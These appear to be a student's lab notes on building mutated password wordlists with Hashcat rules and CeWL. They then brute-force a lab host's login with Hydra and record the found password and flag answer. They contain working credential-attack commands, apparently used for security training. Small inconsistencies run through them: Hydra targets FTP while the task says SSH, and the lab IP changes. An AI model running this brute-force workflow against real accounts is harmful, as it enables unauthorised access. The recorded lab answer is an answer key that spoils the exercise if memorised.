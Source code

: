 
> [! Hint ]
>[Hashcat](https://hashcat.net/wiki/doku.php?id=rule_based_attack) can be used to create combinations of words based on custom rule sets

The below table is a summary of some of the rules:

|**Function**|**Description**|
|---|---|
|`:`|Do nothing.|
|`l`|Lowercase all letters.|
|`u`|Uppercase all letters.|
|`c`|Capitalize the first letter and lowercase others.|
|`sXY`|Replace all instances of X with Y.|
|`$!`|Add the exclamation character at the end.|

#### Generating Rule-based Wordlists

```go
hashcat --force password.list -r custom.rule --stdout | sort -u > mut_password.list
```

#### Local Hashcat Rules

```go
ls /usr/share/hashcat/rules/
```
```shell-session
best64.rule                  specific.rule
combinator.rule              T0XlC-insert_00-99_1950-2050_toprules_0_F.rule
d3ad0ne.rule                 T0XlC-insert_space_and_special_0_F.rule
dive.rule                    T0XlC-insert_top_100_passwords_1_G.rule
generated2.rule              T0XlC.rule
generated.rule               T0XlCv1.rule
hybrid                       toggles1.rule
Incisive-leetspeak.rule      toggles2.rule
InsidePro-HashManager.rule   toggles3.rule
InsidePro-PasswordsPro.rule  toggles4.rule
leetspeak.rule               toggles5.rule
oscommerce.rule              unix-ninja-leetspeak.rule
rockyou-30000.rule
```


#### Generating Wordlists with CeWL

>[! Hint] 
> [CeWL](https://github.com/digininja/CeWL) can be used to scan websites to create custom wordlists. We can then combine this list with the desired rules and create a customized password list that has a higher probability of guessing a correct password


### Question

IP
```go
10.129.111.37
```

Create a mutated wordlist using the files in the ZIP file under "Resources" in the top right corner of this section. Use this wordlist to brute force the password for the user "sam". Once successful, log in with SSH and submit the contents of the flag.txt file as your answer.


Create a custom rule file
```go
:
c
so0
c so0
sa@
c sa@
c sa@ so0
$!
$! c
$! so0
$! sa@
$! c so0
$! c sa@
$! so0 sa@
$! c so0 sa@
```

Create mutated words via Hashcat
```go
sudo hashcat --force /usr/share/wordlists/password.list -r custom_rule --stdout | sort -u > mut_passwds
```


Brute force SSH via Hydra
```go
hydra -l sam -P mut_passwds ftp://10.129.94.26 -t 64
```

```go
ssh sam@10.129.94.26
```

Password found
```go
B@tm@n2022!
```

```go
superdba
```
